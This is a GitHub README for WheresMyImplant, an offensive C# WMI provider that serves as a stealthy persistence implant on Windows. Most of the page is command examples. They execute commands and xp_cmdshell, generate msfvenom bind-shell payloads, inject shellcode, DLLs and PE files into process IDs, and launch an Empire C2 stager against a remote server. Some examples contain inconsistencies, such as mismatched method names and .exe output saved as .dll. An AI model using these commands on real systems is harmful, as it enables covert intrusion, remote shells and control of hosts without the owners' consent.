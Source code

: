 ### WheresMyImplant: A C# WMI Provider for long term persistance

This WMI provider includes functions to execute commands, payloads, and Empire Agent to maintain a low profile on the host.

This is related to the project PowerProvider - https://github.com/0xbadjuju/PowerProvider/

### Methods

* #### RunCMD
  * **Parameters:** Command, Parameters
  * **Example:** <br/>
  Invoke-CimMethod -Class Win32_Implant -Name RunPowerShell -Argument @{ <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;command="ipconfig"; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;parameter="/all" <br/>
  };
  
* #### RunPowerShell
  * **Parameters:** Command
  * **Example:** <br/>
  Invoke-CimMethod -Class Win32_Implant -Name RunPowerShell -Argument @{ <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;command="whoami" <br/>
  };
  
* #### RunXpCmdShell
  * **Parameters:** Server, Database, UserName, Password, Command
  * **Example:** <br/>
  Invoke-CimMethod -Class Win32_Implant -Name RunXpCmdShell -Argument @{ <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;command="whoami"; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;database=""; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;server="sqlserver" <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;username="sa"; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;password="password" <br/>
  };
  
* #### InjectShellCode
  * **Parameter:** ShellCodeString, ProcessId
  * **Example:** <br/>
  msfvenom -p windows/x64/exec --format csharp CMD=calc.exe <br/>
  Invoke-CimMethod -Class Win32_Implant -Name InjectShellCode -Argument @{ <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;shellCodeString=$payload; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;processId=432 <br/>
  };
  
* #### InjectShellCodeWMFIFSB4
  * **Parameters:** WmiClass, FileName, ProcessId
  * **Example:** <br/>
  msfvenom -p windows/x64/exec --format csharp CMD=calc.exe <br/>
  Invoke-CimMethod -Class Win32_Implant -Name InjectShellCodeWMFIFSB4 -Argument @{ <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;WmiClass="WMIFS"; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;FileName="CalcShellCode"; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;processId=432; <br/>
  };
  
* #### InjectDll
  * **Parameters:** Library, ProcessId
  * **Example:** <br/>
  msfvenom -p windows/x64/shell_bind_tcp --format dll --arch x64 > /tmp/bind64.dll <br/>
  Invoke-CimMethod -ClassName Win32_Implant -Name InjectDll -Arguments @{ <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;library = "\\host\share\bind64.dll"; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;processId = 3372; <br/>
  };
  
* #### InjectDllWMIFS
  * **Parameters:** WmiClass, FileName, ProcessId
  * **Example:** <br/>
  msfvenom -p windows/x64/shell_bind_tcp --format dll --arch x64 > /tmp/bind64.dll <br/>
  Invoke-CimMethod -ClassName Win32_Implant -Name InjectDllWMIFS -Arguments @{ <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;WmiClass = "WMIFS"; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;FileName = "bind64.dll"; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;processId = 3372; <br/>
  };
  
* #### InjectPeFile
  * **Parameters:** FileName, Parameters, ProcessId
  * **Example:** <br/>
  msfvenom -p windows/x64/shell_bind_tcp --format exe --arch x64 > /tmp/bind64.dll <br/>
  Invoke-CimMethod -ClassName Win32_Implant -Name InjectPe -Arguments @{ <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;FileName = "C:\bind64.exe"; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Parameters = ""; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;ProcessId=5648; <br/>
  };
  
* #### InjectPeString
  * **Parameters:** PeString, Parameters, ProcessId
  * **Example:** <br/>
  msfvenom -p windows/x64/shell_bind_tcp --format exe --arch x64 > /tmp/bind64.dll <br/>
  Invoke-CimMethod -ClassName Win32_Implant -Name InjectPeString -Arguments @{ <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;FileName = "C:\bind64.exe"; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Parameters = ""; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;ProcessId=5648; <br/>
  };
  
* #### InjectPeWMIFS
  * **Parameters:** WmiClass, FileName, Parameters, ProcessId
  * **Example:** <br/>
  msfvenom -p windows/x64/shell_bind_tcp --format exe --arch x64 > /tmp/bind64.dll <br/>
  Invoke-CimMethod -ClassName Win32_Implant -Name InjectPeFromFileRem -Arguments @{ <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;FileName = "C:\bind64.exe"; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Parameters = ""; ProcessId=5648; <br/>
  };
  
* #### Empire
  * **Parameters:** Server, StagingKey, Language
  * **Example:** <br/>
  Invoke-CimMethod -ClassName Win32_Implant -Name EmpireStager -Arguments @{ <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Server = $Server; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;StagingKey = $StagingKey; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Language = "PowerShell"; <br/>
  }; 
  <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Invoke-CimMethod -ClassName Win32_Implant -Name EmpireStager -Arguments @{ <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Server = $Server; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;$StagingKey = $StagingKey; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Language = "dotnet"; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;};


### Author, Contributors, and License

Author: Alexander Leary (@0xbadjuju), NetSPI - 2017

License: BSD 3-Clause

Required Dependencies: None
